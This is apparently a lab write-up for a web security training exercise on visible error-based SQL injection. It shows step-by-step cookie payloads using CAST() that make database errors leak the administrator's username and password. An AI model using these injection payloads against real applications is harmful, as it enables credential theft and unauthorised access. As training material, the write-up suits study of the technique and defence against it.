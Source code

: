 ### Visible error-based SQL injection : PRACTITIONER

---

> Try injecting a `'` in the TrackingId cookie.
> See an error message.

![error](./screenshots/err.png)

> This states that the `'` causes an error. Try adding another one to close of the opened string.
> The error disappears and the application works normally.

> Try adding a comment after the single qoute, and observe that the website works normally.
```
ye4d0aqqHSSKqYvy'--
```

> Since there are visible error messages, we can try to use the `CAST()` function.
```
ye4d0aqqHSSKqYvy' AND CAST((SELECT 1) AS INT)--
```

![error1](./screenshots/err1.png)

> Type boolean, so try to add an equality.
```
ye4d0aqqHSSKqYvy' AND CAST((SELECT 1) AS INT) = 1--
```
> It works properly. Now we know the syntax of the CAST expression and how to make it work, lets try to obtain the administrator username and password from the users table.
```
ye4d0aqqHSSKqYvy'AND CAST((SELECT username FROM users LIMIT 1) AS INT) = 1--
```
>This doesn't work as the last couple of characters aren't read by the query, so we remove the cookie and check.
```
'AND CAST((SELECT username FROM users LIMIT 1) AS INT) = 1--
```

![err2](./screenshots/err2.png)

> The error message displays the required data. What happens is that what we need is of type string, but we are casting it to integer. So the error message displays where our errors are. We exploit this again by trying to obtain the password.
```
'AND CAST((SELECT password FROM users LIMIT 1) AS INT) = 1--
```

![err3](./screenshots/err3.png)

> Now login as admin with the given password and complete the lab.

---
